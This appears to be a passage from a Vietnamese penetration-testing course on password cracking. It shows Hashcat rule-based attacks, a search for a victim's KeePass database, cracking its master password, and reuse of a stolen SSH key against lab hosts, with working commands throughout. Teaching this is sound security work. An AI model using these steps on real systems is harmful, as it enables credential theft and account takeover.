kali@kali:~$ python3 -c "print(916132832 / 9276300000)"
0.09876058687192092
```

                      *Listing 10 - Tính toán thời gian cracking cho mật khẩu dài 5 ký tự*

Kết quả cho thấy chúng ta có thể tính toán tất cả các hash có thể cho keyspace này trong chưa đến một giây với GPU, và khoảng bảy giây với CPU.

Hãy sử dụng cùng tập ký tự nhưng tăng độ dài mật khẩu lên 8 và 10 để hiểu rõ hơn cách thời gian cracking tăng theo độ dài mật khẩu. Đối với phần này, chúng ta sẽ sử dụng hash rate SHA-256 của GPU cho các phép tính.

```
kali@kali:~$ python3 -c "print(62**8)"
218340105584896

kali@kali:~$ python3 -c "print(218340105584896 / 9276300000)"
23537.41314801117

kali@kali:~$ python3 -c "print(62**10)"
839299365868340224

kali@kali:~$ python3 -c "print(839299365868340224 / 9276300000)"
90477816.14095493
```

    *Listing 11 - Tính toán thời gian cracking cho mật khẩu dài 8 và 10 ký tự trên GPU với SHA-256*

Kết quả cho thấy, sau khi chuyển đổi từ giây, một GPU sẽ mất khoảng 6,5 giờ để thử tất cả các tổ hợp có thể cho mật khẩu dài tám ký tự, và khoảng 2,8 năm cho mật khẩu dài mười ký tự.

Lưu ý rằng việc tăng độ dài mật khẩu làm tăng thời gian cracking theo cấp số mũ, trong khi việc tăng độ phức tạp của mật khẩu (charset) chỉ làm tăng thời gian cracking theo đa thức.

Điều này cho thấy rằng một chính sách mật khẩu khuyến khích mật khẩu dài hơn sẽ bền vững hơn trước các cuộc tấn công cracking, so với một chính sách chỉ khuyến khích mật khẩu phức tạp hơn.

Trong phần này, chúng ta đã thảo luận về encryption và hashing, benchmark các hash algorithm khác nhau trên CPU và GPU, và cuối cùng làm quen với quá trình tính toán thời gian cracking.

---

## 2.2. Biến đổi Wordlist

---

Password policy, vốn ngày càng phổ biến trong những năm gần đây, quy định độ dài tối thiểu của mật khẩu và việc sử dụng các biến thể ký tự bao gồm chữ hoa và chữ thường, ký tự đặc biệt và giá trị số.

Phần lớn mật khẩu trong các wordlist được sử dụng phổ biến sẽ không đáp ứng các yêu cầu này. Nếu chúng ta muốn sử dụng chúng để tấn công một mục tiêu có password policy mạnh, chúng ta sẽ cần chuẩn bị wordlist thủ công bằng cách loại bỏ tất cả các mật khẩu không thỏa mãn password policy hoặc tự sửa wordlist để bao gồm các mật khẩu phù hợp. Chúng ta có thể giải quyết vấn đề này bằng cách tự động hóa quá trình thay đổi (hoặc biến đổi) wordlist trước khi gửi chúng tới mục tiêu, theo cách được gọi là rule-based attack. Trong kiểu tấn công này, các rule riêng lẻ được triển khai thông qua rule function, được dùng để sửa đổi các mật khẩu hiện có trong một wordlist. Một rule đơn lẻ bao gồm một hoặc nhiều rule function. Chúng ta thường sử dụng nhiều rule function trong mỗi rule.

Để tận dụng một rule-based attack, chúng ta sẽ tạo một rule file chứa một hoặc nhiều rule và sử dụng nó với một cracking tool.

Trong một ví dụ đơn giản, chúng ta có thể tạo một rule function để nối thêm các ký tự cố định vào tất cả các mật khẩu trong wordlist, hoặc sửa đổi các ký tự khác nhau trong một mật khẩu.

Lưu ý rằng rule-based attack làm tăng số lượng mật khẩu được thử lên rất lớn, mặc dù giờ chúng ta đã biết rằng phần cứng hiện đại có thể dễ dàng xử lý các mật khẩu phổ biến có độ dài dưới tám ký tự.

Trong ví dụ sau, chúng ta sẽ giả định rằng chúng ta gặp một password policy yêu cầu một chữ hoa, một ký tự đặc biệt và một giá trị số. Hãy kiểm tra 10 mật khẩu đầu tiên của rockyou.txt để xác định xem chúng có đáp ứng yêu cầu này hay không. Chúng ta sẽ dùng lệnh head để hiển thị 10 dòng đầu tiên của wordlist.

```bash
kali@kali:~$ head /usr/share/wordlists/rockyou.txt 
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
```

                                 *Listing 12 - Hiển thị 10 mật khẩu đầu tiên của rockyou.txt*

Listing cho thấy rằng không có mật khẩu nào trong mười mật khẩu đầu tiên của rockyou.txt đáp ứng yêu cầu của password policy trong ví dụ này.

Giờ chúng ta có thể sử dụng rule function để biến đổi wordlist nhằm phù hợp với password policy. Nhưng trước khi biến đổi một wordlist phức tạp như rockyou.txt, hãy làm quen với rule function và cách sử dụng chúng bằng một ví dụ cơ bản hơn.

Để minh họa các rule function như capitalization, hãy copy 10 mật khẩu từ Listing 12 và lưu chúng vào demo.txt trong thư mục passwordattacks vừa được tạo. Sau đó, chúng ta sẽ loại bỏ tất cả các chuỗi số (không phù hợp với password policy) khỏi demo.txt bằng cách sử dụng sed với ^1 để chỉ tất cả các dòng bắt đầu bằng “1”, xóa chúng bằng d, và chỉnh sửa trực tiếp file bằng -i.

```
kali@kali:~$ mkdir passwordattacks

kali@kali:~$ cd passwordattacks

kali@kali:~/passwordattacks$ head /usr/share/wordlists/rockyou.txt > demo.txt

kali@kali:~/passwordattacks$ sed -i '/^1/d' demo.txt 

kali@kali:~/passwordattacks$ cat demo.txt
password
iloveyou
princess
rockyou
abc123
```

                                          *Listing 13 - Nội dung và vị trí của demo.txt*

Giờ chúng ta có năm mật khẩu trong wordlist demo.txt. Hãy biến đổi các mật khẩu này để phù hợp với password policy, vốn phải bao gồm một giá trị số, một ký tự đặc biệt và một chữ hoa.

Hashcat Wiki cung cấp danh sách tất cả các rule function có thể cùng ví dụ. Nếu chúng ta muốn thêm một ký tự, dạng đơn giản nhất là prepend hoặc append nó. Chúng ta có thể dùng hàm $ để append một ký tự hoặc ^ để prepend một ký tự. Cả hai hàm này đều kỳ vọng một ký tự theo sau bộ chọn hàm. Ví dụ, nếu chúng ta muốn prepend “3” vào mọi mật khẩu trong một file, rule function tương ứng sẽ là ^3.

Khi tạo một mật khẩu có chứa giá trị số, nhiều người dùng đơn giản là thêm “1” vào cuối một mật khẩu có sẵn. Do đó, hãy tạo một rule file chứa $1 để append “1” vào tất cả các mật khẩu trong wordlist của chúng ta. Chúng ta sẽ tạo demo.rule với rule function này. Chúng ta cần escape ký tự đặc biệt “$” để echo nó vào file đúng cách.

```
kali@kali:~/passwordattacks$ echo \$1 > demo.rule

```

                              *Listing 14 - Rule function để thêm “1” vào tất cả mật khẩu*

Giờ chúng ta có thể dùng hashcat với việc mutate wordlist, cung cấp rule file bằng -r, và --stdout, vốn khởi động Hashcat ở chế độ debugging. Ở chế độ này, Hashcat sẽ không cố gắng crack bất kỳ hash nào, mà chỉ hiển thị các mật khẩu đã được biến đổi.

```
kali@kali:~/passwordattacks$ hashcat -r demo.rule --stdout demo.txt
password1
iloveyou1
princess1
rockyou1
abc1231
```

      *Listing 15 - Dùng Hashcat ở chế độ debugging để hiển thị tất cả mật khẩu đã được biến đổi*

Listing cho thấy một “1” đã được append vào từng mật khẩu do rule function $1.

Nếu bạn nhận được lỗi “Not enough allocatable device memory for this attack”, hãy tắt máy ảo Kali của bạn và cấp thêm RAM. 4GB là đủ cho các ví dụ và bài tập.

Bây giờ, hãy xử lý yêu cầu về chữ hoa trong password policy. Khi bị buộc phải dùng chữ hoa trong mật khẩu, nhiều người dùng có xu hướng viết hoa ký tự đầu tiên. Do đó, chúng ta sẽ thêm rule function c vào rule file của mình, rule này sẽ viết hoa ký tự đầu tiên và chuyển phần còn lại thành chữ thường.

Hãy thử một ví dụ với hai rule file: demo1.rule và demo2.rule. Chúng ta sẽ định dạng các file này khác nhau.

Trong demo1.rule, các rule function nằm trên cùng một dòng và được phân tách bởi dấu cách. Trong trường hợp này, Hashcat sẽ áp dụng chúng liên tiếp lên mỗi mật khẩu của wordlist. Kết quả là ký tự đầu tiên của mỗi mật khẩu được viết hoa VÀ một “1” được append vào mỗi mật khẩu.

Trong demo2.rule, các rule function nằm trên các dòng riêng biệt. Hashcat hiểu rule function thứ hai, ở dòng thứ hai, là một rule mới. Trong trường hợp này, mỗi rule được áp dụng riêng biệt, tạo ra hai mật khẩu đã biến đổi cho mỗi mật khẩu trong wordlist.

```
kali@kali:~/passwordattacks$ cat demo1.rule     
$1 c
       
kali@kali:~/passwordattacks$ hashcat -r demo1.rule --stdout demo.txt
Password1
Iloveyou1
Princess1
Rockyou1
Abc123H

kali@kali:~/passwordattacks$ cat demo2.rule   
$1
c

kali@kali:~/passwordattacks$ hashcat -r demo2.rule --stdout demo.txt
password1
Password
iloveyou1
Iloveyou
princess1
Princess
...
```

              *Listing 16 - Dùng hai rule function được phân tách bằng dấu cách và xuống dòng*

Tốt! Chúng ta đã điều chỉnh rule file demo1.rule để đáp ứng hai trong ba yêu cầu của password policy. Hãy xử lý yêu cầu thứ ba và thêm một ký tự đặc biệt. Chúng ta sẽ bắt đầu với “!”, vốn là một ký tự đặc biệt rất phổ biến.

Dựa trên giả định này, chúng ta sẽ thêm $! vào rule file. Vì chúng ta muốn mọi rule function được áp dụng lên mọi mật khẩu, chúng ta cần đặt các hàm trên cùng một dòng. Một lần nữa, chúng ta sẽ minh họa bằng hai rule file khác nhau để nhấn mạnh khái niệm kết hợp rule function. Trong rule file đầu tiên, chúng ta sẽ thêm $! vào cuối rule đầu tiên. Trong rule file thứ hai, chúng ta sẽ thêm nó ở đầu rule.

```
kali@kali:~/passwordattacks$ cat demo1.rule     
$1 c $!

kali@kali:~/passwordattacks$ hashcat -r demo1.rule --stdout demo.txt
Password1!
Iloveyou1!
Princess1!
Rockyou1!
Abc1231!

kali@kali:~/passwordattacks$ cat demo2.rule   
$! $1 c

kali@kali:~/passwordattacks$ hashcat -r demo2.rule --stdout demo.txt
Password!1
Iloveyou!1
Princess!1
Rockyou!1
Abc123!1
```

                              *Listing 17 - Thêm rule function vào đầu và cuối rule hiện tại*

Kết quả cho thấy demo1.rule biến đổi mật khẩu bằng cách append trước “1” rồi đến “!”. Rule file còn lại, demo2.rule, append “!” trước rồi đến “1”. Điều này cho thấy các rule function được áp dụng theo thứ tự từ trái sang phải trong một rule.

Rule chứa trong demo1.rule biến đổi các mật khẩu của wordlist để đáp ứng yêu cầu của password policy.

Giờ khi đã có hiểu biết cơ bản về rules và cách tạo chúng, hãy crack một hash bằng rule-based attack. Trong bài demo này, giả sử chúng ta đã thu được MD5 hash “f621b6c9eab51a3e2f4e167fee4c6860” từ một hệ thống mục tiêu. Chúng ta sẽ sử dụng wordlist rockyou.txt và sửa nó theo password policy yêu cầu chữ hoa, giá trị số và ký tự đặc biệt.

Hãy tạo một rule file để đáp ứng password policy này. Tương tự như trước, chúng ta sẽ dùng rule function c để viết hoa chữ cái đầu. Ngoài ra, chúng ta sẽ dùng lại “!” làm ký tự đặc biệt. Với phần giá trị số, chúng ta sẽ append “1”, “2” và “123” (rất phổ biến) rồi theo sau bằng ký tự đặc biệt.

```
kali@kali:~/passwordattacks$ cat crackme.txt     
f621b6c9eab51a3e2f4e167fee4c6860

kali@kali:~/passwordattacks$ cat demo3.rule   
$1 c $!
$2 c $!
$1 $2 $3 c $!
```

                                                  *Listing 18 - MD5 hash và rule file*

Tiếp theo, chúng ta có thể chạy Hashcat. Chúng ta sẽ tắt debugging bằng cách bỏ tham số --stdout. Thay vào đó, chúng ta sẽ chỉ định -m, dùng để đặt hash type. Trong bài demo này, chúng ta muốn crack MD5, là hash type 0, mà chúng ta lấy từ trang Hashcat hash example. Sau hash type, chúng ta sẽ cung cấp file chứa MD5 hash mục tiêu (crackme.txt) và wordlist rockyou.txt. Sau đó, chúng ta sẽ chỉ định -r để cung cấp demo3.rule. Do máy ảo Kali của chúng ta không có GPU, chúng ta cũng sẽ nhập --force để bỏ qua các cảnh báo liên quan từ Hashcat.

```
kali@kali:~/passwordattacks$ hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
hashcat (v6.2.5) starting
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 43033155

f621b6c9eab51a3e2f4e167fee4c6860:Computer123!            
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: f621b6c9eab51a3e2f4e167fee4c6860
Time.Started.....: Tue May 24 14:34:54 2022, (0 secs)
Time.Estimated...: Tue May 24 14:34:54 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (demo3.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3144.1 kH/s (0.28ms) @ Accel:256 Loops:3 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
...
```

       *Listing 19 - Crack một MD5 hash bằng Hashcat và wordlist rockyou.txt đã được biến đổi*

Trong trường hợp này, chúng ta đã crack được mật khẩu “Computer123!”, vốn không có trong file rockyou.txt mặc định. Việc này chỉ mất vài giây với Hashcat dù đang chạy trên CPU.

Khi cố gắng tạo rules để mutate một wordlist có sẵn, chúng ta nên luôn cân nhắc hành vi con người và sự tiện lợi trong việc đặt mật khẩu. Hầu hết người dùng chọn một từ chính rồi chỉnh sửa nó để phù hợp password policy, có thể bằng cách append số và ký tự đặc biệt. Khi yêu cầu chữ hoa, hầu hết người dùng viết hoa chữ cái đầu tiên. Khi yêu cầu ký tự đặc biệt, hầu hết người dùng thêm ký tự đặc biệt ở cuối mật khẩu và ưu tiên các ký tự ở phía bên trái bàn phím vì các ký tự này dễ với tới và gõ.

Thay vì tự tạo rules, chúng ta cũng có thể dùng các rules do Hashcat hoặc các nguồn khác cung cấp. Hashcat bao gồm nhiều rule hiệu quả trong /usr/share/hashcat/rules:

```
kali@kali:~/passwordattacks$ ls -la /usr/share/hashcat/rules/
total 2588
-rw-r--r-- 1 root root    933 Dec 23 08:53 best64.rule
-rw-r--r-- 1 root root    666 Dec 23 08:53 combinator.rule
-rw-r--r-- 1 root root 200188 Dec 23 08:53 d3ad0ne.rule
-rw-r--r-- 1 root root 788063 Dec 23 08:53 dive.rule
-rw-r--r-- 1 root root 483425 Dec 23 08:53 generated2.rule
-rw-r--r-- 1 root root  78068 Dec 23 08:53 generated.rule
drwxr-xr-x 2 root root   4096 Feb 11 01:58 hybrid
-rw-r--r-- 1 root root 309439 Dec 23 08:53 Incisive-leetspeak.rule
-rw-r--r-- 1 root root  35280 Dec 23 08:53 InsidePro-HashManager.rule
-rw-r--r-- 1 root root  19478 Dec 23 08:53 InsidePro-PasswordsPro.rule
-rw-r--r-- 1 root root    298 Dec 23 08:53 leetspeak.rule
-rw-r--r-- 1 root root   1280 Dec 23 08:53 oscommerce.rule
-rw-r--r-- 1 root root 301161 Dec 23 08:53 rockyou-30000.rule
-rw-r--r-- 1 root root   1563 Dec 23 08:53 specific.rule
-rw-r--r-- 1 root root  64068 Dec 23 08:53 T0XlC-insert_00-99_1950-2050_toprules_0_F.rule
...
```

                                    *Listing 20 - Danh sách các rule file của Hashcat*

Các rule dựng sẵn này bao phủ rất nhiều kiểu biến đổi và hữu ích nhất khi chúng ta không có bất kỳ thông tin nào về password policy của mục tiêu. Chúng ta sẽ sử dụng các rule dựng sẵn trong các bài demo và ví dụ sắp tới. Tuy nhiên, cách hiệu quả nhất luôn là thu thập thông tin về password policy hiện có, hoặc tra cứu các default policy thường dùng cho môi trường phần mềm của mục tiêu.

Hãy tóm tắt nhanh những gì chúng ta đã làm trong phần này. Chúng ta bắt đầu bằng việc thảo luận rule-based attack và lý do tại sao chúng được ưu tiên hơn dictionary attack. Sau đó, chúng ta thảo luận rules và sử dụng chúng để mutate wordlist nhằm crack một MD5 hash. Ở cuối phần này, chúng ta giới thiệu ngắn gọn các rule file dựng sẵn do Hashcat cung cấp.

Trong phần tiếp theo, chúng ta sẽ thảo luận một methodology cơ bản cho cracking, mà chúng ta có thể dùng như một dàn ý cho các bài demo và bài tập.

---

## 2.3. Phương pháp Cracking

---

Trong các phần tiếp theo, chúng ta sẽ đi qua các giai đoạn khác nhau của một phiên password-cracking trong thực tế, bắt đầu bằng một overview về một methodology vững chắc.

Chúng ta có thể mô tả quá trình crack một hash với các bước sau:

- Trích xuất hash
- Định dạng hash
- Tính toán thời gian cracking
- Chuẩn bị wordlist
- Tấn công hash

Bước đầu tiên là trích xuất các hash. Trong một penetration test, chúng ta sẽ tìm thấy hash ở nhiều vị trí khác nhau. Ví dụ, nếu chúng ta giành được quyền truy cập vào một hệ thống cơ sở dữ liệu, chúng ta có thể dump bảng cơ sở dữ liệu chứa các user password đã được hash.

Bước tiếp theo là định dạng các hash theo định dạng cracking mà công cụ của chúng ta mong đợi. Để làm điều này, chúng ta cần biết hashing algorithm đã được dùng để tạo ra hash. Chúng ta có thể xác định hash type bằng hash-identifier hoặc hashid, vốn đã được cài đặt trên Kali. Tùy theo hashing algorithm và nguồn gốc của hash, chúng ta có thể cần kiểm tra xem nó đã ở đúng định dạng cho cracking tool của chúng ta hay chưa. Nếu chưa, thì chúng ta cần dùng các helper tool để thay đổi cách biểu diễn của hash sang định dạng mà cracking tool của chúng ta yêu cầu.

Ở bước thứ ba, chúng ta sẽ xác định tính khả thi của nỗ lực cracking. Như đã thảo luận trước đó, thời gian cracking bao gồm keyspace chia cho hash rate. Nếu thời gian cracking được tính toán vượt quá tuổi thọ dự kiến của chúng ta, chúng ta có thể sẽ cân nhắc lại cách tiếp cận này!

Thực tế hơn, chúng ta nên xem xét thời lượng của penetration test hiện tại vì rất có thể chúng ta có nghĩa vụ phải dừng phiên (kèm theo các hoạt động clean-up khác) khi bài test kết thúc. Thay vì nuôi hy vọng thành công trong một phiên cracking dự kiến kéo dài quá mức, chúng ta nên cân nhắc các vector tấn công thay thế hoặc đầu tư nâng cấp phần cứng hoặc sử dụng một cloud-based machine instance.

Bước thứ tư là chuẩn bị wordlist. Trong hầu hết mọi trường hợp, chúng ta nên mutate wordlist và thực hiện rule-based attack, thay vì một dictionary attack thuần túy. Ở bước này, chúng ta nên điều tra các password policy tiềm năng và nghiên cứu các password vector khác, bao gồm các trang rò rỉ mật khẩu trực tuyến. Nếu không làm vậy, chúng ta có thể phải chạy nhiều wordlist (có hoặc không có rules dựng sẵn) để bao phủ rộng các mật khẩu có thể.

Sau khi chuẩn bị xong, chúng ta có thể khởi chạy công cụ và bắt đầu quá trình cracking. Tại thời điểm này, chúng ta phải đặc biệt cẩn thận khi copy/paste hash. Một dấu cách thừa hoặc một newline có thể khiến mọi nỗ lực trở nên vô nghĩa. Ngoài ra, chúng ta cần chắc chắn về hash type mà chúng ta đang sử dụng. Ví dụ, hashid không thể tự động xác định b08ff247dc7c5658ff64c53e8b0db462 là MD2, MD4 hay MD5. Việc chọn sai rõ ràng sẽ lãng phí thời gian. Chúng ta có thể tránh tình huống này bằng cách double-check kết quả với các công cụ khác và thực hiện thêm nghiên cứu.

Chúng ta sẽ theo methodology này trong các bài demo sắp tới để củng cố các khía cạnh và chi tiết quan trọng của quá trình cracking. Cách tốt nhất để cải thiện kết quả trong một quá trình thường kéo dài này là làm việc với sự tập trung và có cấu trúc.

---

## 2.4. Password Manager

---

Password manager tạo và lưu trữ mật khẩu cho nhiều dịch vụ khác nhau, đồng thời bảo vệ chúng bằng một master password. Master password này cấp quyền truy cập vào toàn bộ các mật khẩu được lưu trong password manager. Người dùng thường copy/paste các mật khẩu này từ password manager hoặc sử dụng chức năng auto-fill gắn với trình duyệt. Ví dụ về các password manager phổ biến bao gồm 1Password và KeePass. Loại phần mềm này có thể hỗ trợ người dùng, những người thường xuyên phải duy trì nhiều mật khẩu (thường là phức tạp), nhưng đồng thời cũng có thể đưa rủi ro vào trong một tổ chức.

Trong phần này, chúng ta sẽ minh họa một kịch bản penetration test rất phổ biến. Giả sử chúng ta đã giành được quyền truy cập vào một máy trạm của khách hàng đang chạy một password manager. Trong bài demo sau, chúng ta sẽ trích xuất database của password manager, chuyển đổi file này sang định dạng mà Hashcat có thể sử dụng, và crack master database password.

Hãy bắt đầu bằng cách kết nối tới máy SALESWK01 (192.168.50.203) qua RDP. Giả sử chúng ta đã thu được thông tin xác thực của user jason (lab), chúng ta sẽ đăng nhập và sau khi kết nối thành công, chúng ta sẽ truy cập được vào desktop của hệ thống.

Sau khi kết nối, chúng ta sẽ kiểm tra các chương trình đã được cài đặt trên hệ thống. Có nhiều cách để tìm kiếm các chương trình đã cài đặt, nhưng vì chúng ta có quyền truy cập GUI, chúng ta sẽ sử dụng chức năng Apps & features của Windows, đây là cách tiếp cận trực quan và đơn giản nhất. Chúng ta click vào biểu tượng Windows, gõ “Apps”, chọn Add or remove programs và cuộn xuống để xem danh sách các chương trình đã được cài đặt.


                                *Figure 3: KeePass trong danh sách chương trình đã cài đặt*

Danh sách cho thấy KeePass đã được cài đặt trên hệ thống. Nếu chúng ta không quen thuộc với chương trình này, chúng ta sẽ nghiên cứu thêm và cuối cùng phát hiện rằng database của KeePass được lưu dưới dạng file `.kdbx` và rằng có thể tồn tại nhiều hơn một database trên hệ thống. Ví dụ, một người dùng có thể duy trì một database cá nhân và một tổ chức có thể duy trì một database ở cấp phòng ban. Bước tiếp theo của chúng ta là xác định vị trí các database file bằng cách tìm kiếm tất cả các file .kdbx trên hệ thống.

Hãy sử dụng PowerShell với cmdlet Get-ChildItem để tìm các file tại những vị trí được chỉ định. Chúng ta sẽ dùng -Path C:\ để tìm kiếm trên toàn bộ ổ đĩa. Tiếp theo, chúng ta sẽ dùng -Include để chỉ định các loại file cần bao gồm, các tham số -File và -Recurse để lấy danh sách file và tìm kiếm trong các thư mục con. Cuối cùng, chúng ta sẽ đặt -ErrorAction thành SilentlyContinue để bỏ qua lỗi và tiếp tục thực thi.

```
PS C:\Users\jason> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    
    
    Directory: C:\Users\jason\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/30/2022   8:19 AM           1982 Database.kdbx
```

                                  *Listing 21 - Tìm kiếm các file database của KeePass*

Kết quả cho thấy một file database nằm trong thư mục Documents của user jason.


                                            *Figure 4: KeePass database trong Explorer*

Chúng ta sẽ chuyển file này sang hệ thống Kali của mình để chuẩn bị cho các bước tiếp theo.

Đến đây, chúng ta đã hoàn thành bước đầu tiên của cracking methodology và có thể chuyển sang bước tiếp theo, đó là chuyển đổi hash sang định dạng mà cracking tool của chúng ta có thể sử dụng.

Bộ công cụ JtR bao gồm nhiều script chuyển đổi khác nhau như ssh2john và keepass2john, có khả năng định dạng nhiều loại file khác nhau, và chúng được cài đặt sẵn trên máy Kali của chúng ta. Chúng ta cũng có thể sử dụng các script này để định dạng hash cho Hashcat.

Hãy sử dụng script keepass2john để định dạng file database và lưu output vào keepass.hash.

```
kali@kali:~/passwordattacks$ ls -la Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx

kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

             *Listing 22 - Sử dụng keepass2john để định dạng database KeePass cho Hashcat*

Listing trên cho thấy hash thu được của database KeePass được lưu trong keepass.hash. Trước khi có thể làm việc với hash này, chúng ta cần chỉnh sửa nó thêm một chút.

Trong trường hợp này, script của JtR đã prepend tên file Database vào trước hash. Script làm vậy để sử dụng tên file như username cho hash mục tiêu. Điều này rất hữu ích khi crack database hash, vì chúng ta muốn output hiển thị username tương ứng chứ không chỉ là mật khẩu. Tuy nhiên, vì KeePass sử dụng master password mà không có bất kỳ username nào, chúng ta cần loại bỏ chuỗi “Database:” bằng một trình soạn thảo văn bản.

Sau khi loại bỏ chuỗi “Database:”, hash sẽ ở đúng định dạng cho Hashcat:

```
kali@kali:~/passwordattacks$ cat keepass.hash   
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e...
```

                   *Listing 23 - Định dạng hash đúng cho Hashcat sau khi loại bỏ “Database:”*

Chúng ta gần như đã sẵn sàng để bắt đầu quá trình cracking, nhưng trước hết cần xác định hash type của KeePass. Chúng ta có thể tra cứu trong Hashcat Wiki, hoặc grep output trợ giúp của hashcat như dưới đây:

```
kali@kali:~/passwordattacks$ hashcat --help | grep -i "KeePass"
13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)         | Password Manager
```

                                         *Listing 24 - Tìm mode của KeePass trong Hashcat*

Output của lệnh grep cho thấy mode đúng cho KeePass là 13400.

Hãy bỏ qua bước ba (tính toán thời gian cracking) vì đây là một ví dụ đơn giản và sẽ không mất nhiều thời gian, và chuyển sang bước bốn để chuẩn bị wordlist. Chúng ta sẽ sử dụng một rule do Hashcat cung cấp (rockyou-30000.rule), như đã đề cập trước đó, kết hợp với wordlist rockyou.txt.

Rule file này đặc biệt hiệu quả khi dùng với rockyou.txt, vì nó được tạo ra dành riêng cho wordlist này.

Khi bước vào bước năm, chúng ta đã chuẩn bị đầy đủ mọi thứ cho password attack. Hãy sử dụng hashcat với các tham số đã cập nhật và bắt đầu cracking.

```
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

                                                 *Listing 25 - Crack hash database KeePass*

Sau vài giây, Hashcat đã crack thành công hash và phát hiện master password của KeePass là “qwertyuiop123!”. Hãy chạy KeePass thông qua kết nối RDP của chúng ta và khi được yêu cầu, nhập mật khẩu này.


                               *Figure 5: Yêu cầu nhập Master Password trong KeePass*

Rất tốt! Chúng ta đã mở được KeePass bằng mật khẩu vừa crack. Giờ đây, chúng ta có quyền truy cập vào toàn bộ các mật khẩu mà người dùng đã lưu trữ!


                         *Figure 6: Danh sách mật khẩu sau khi nhập Master Password thành công*

Trong phần này, chúng ta đã thu được một file database của KeePass, chuyển đổi nó cho Hashcat, và crack mật khẩu. Trong phần tiếp theo, chúng ta sẽ minh họa cách crack passphrase của một SSH private key để sử dụng nó nhằm truy cập vào một hệ thống mục tiêu.

---

## 2.5. SSH Private Key Passphrase

---

Trong phần này, chúng ta sẽ tập trung vào việc crack passphrase của SSH private key.

Mặc dù SSH private key cần được giữ bí mật, có rất nhiều kịch bản mà các file này có thể bị lộ. Ví dụ, nếu chúng ta giành được quyền truy cập vào một web application thông qua một lỗ hổng như Directory Traversal, chúng ta có thể đọc các file trên hệ thống. Chúng ta có thể dùng điều này để lấy SSH private key của một user. Tuy nhiên, khi chúng ta cố sử dụng nó để kết nối tới hệ thống, chúng ta sẽ bị hỏi passphrase. Để giành quyền truy cập, chúng ta sẽ cần crack passphrase.

Hãy minh họa kịch bản này và cách sử dụng cracking methodology mà chúng ta đã thảo luận để crack passphrase của một private key. Khi chúng ta sử dụng dictionary attack trên form đăng nhập HTTP của BRUTE, chúng ta đã giành được quyền truy cập vào một web-based file manager đang host một SSH private key.

Hãy duyệt một web service khác, (trong bài demo này) nằm tại [http://192.168.50.201:8080](http://192.168.50.201:8080/) và đăng nhập với username là user và password là 121212.


                                       *Figure 7: Directory Listing của TinyFileManager*

Web service này tương tự ví dụ TinyFileManager trước đó, ngoại trừ việc thư mục chính giờ chứa thêm hai file id_rsa và note.txt. Hãy tải cả hai file này về máy Kali và lưu vào thư mục passwordattacks của chúng ta. Trước tiên, chúng ta sẽ xem nội dung của note.txt.

```
kali@kali:~/passwordattacks$ cat note.txt
Dave's password list:

Window
rickc137
dave
superdave
megadave
umbrella

Note to myself:
New password policy starting in January 2022. Passwords need 3 numbers, a capital letter and a special character
```

                                                         *Listing 26 - Nội dung của note.txt*

Kết quả cho thấy note này chứa danh sách mật khẩu của dave ở dạng plaintext. Wow! Đây có thể là một mỏ vàng thông tin. Trong tình huống thực tế, chúng ta sẽ cần thực hiện nhiều information gathering hơn đáng kể (bao gồm việc xác định username thực sự gắn với từng mật khẩu), nhưng cho mục đích demo thì chúng ta sẽ tiếp tục với dữ liệu này!

Hãy thử sử dụng private key id_rsa cho user mới được xác định là dave trong một kết nối SSH. Để làm điều này, chúng ta phải sửa permission của private key đã tải xuống. SSH port được dùng trong ví dụ này là 2222. Chúng ta sẽ thử từng mật khẩu trong danh sách này làm passphrase cho SSH private key. Lưu ý rằng chương trình ssh sẽ không echo passphrase.

```
kali@kali:~/passwordattacks$ chmod 600 id_rsa

kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
The authenticity of host '[192.168.50.201]:2222 ([192.168.50.201]:2222)' can't be established.
ED25519 key fingerprint is SHA256:ab7+Mzb+0/fX5yv1tIDQsW/55n333/oGARIluRonao4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.50.201]:2222' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
dave@192.168.50.201's password: 

kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
```

